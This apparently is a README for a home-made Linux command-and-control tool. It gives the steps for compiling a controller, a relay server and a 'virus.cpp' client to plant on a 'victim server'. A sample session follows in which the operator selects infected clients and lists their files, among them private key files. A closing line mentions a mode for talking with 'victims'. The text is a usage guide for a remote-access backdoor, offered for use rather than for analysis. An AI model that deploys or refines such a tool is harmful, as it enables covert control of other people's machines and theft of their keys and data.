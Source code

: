 Linux Server C2 Controller

Step 1:
Replace the ip address "192.168.80.132" in the tcsl.cpp and host.cpp as your server ipv4 address

Step 2:
Copy tcsl.cpp to your Linux Server
virus.cpp to your victim server
host.cpp to your local machine as control side
and then compile:

g++ tcsl.cpp -o tcsl 
g++ host.cpp -o host 
g++ virus.cpp -o server 

Step 3: 
Open 3 terminals and run the command seperately:
./tcsl
Support any amounts of Clients' connections
the Host and Client is auto-recognized:  
./virus
./host

Step 4:
Please use 'hs' followed with the client numbers you pick.
For example: 'hs 1'
Use 'hh' to check the connected clients.

Step 5:
Enjoy your commands in the host terminal and control your client as terminal.
For example:
Connected to the server.
No client connected.

┌──(root♪hr0g) - [~]

└─# ls

Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.

┌──(root♪hr0g) - [~]

└─# hh

Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# ls 1

ca.crt

ca.key

dh.pem

ha.crt

ha.key

hr0g.crt

hr0g.key

server.conf

┌──(root♪hr0g) - [~1]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# ls 1

ca.crt

ca.key

dh.pem

ha.crt

ha.key

hr0g.crt

hr0g.key

server.conf

┌──(root♪hr0g) - [~1]

└─# hs 2

Client 2 selected.

┌──(root♪hr0g) - [~2]

└─# hh

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~2]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# ls

Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.

┌──(root♪hr0g) - [~]

└─# 

use 'chatmode' to communicate with victims(under development)
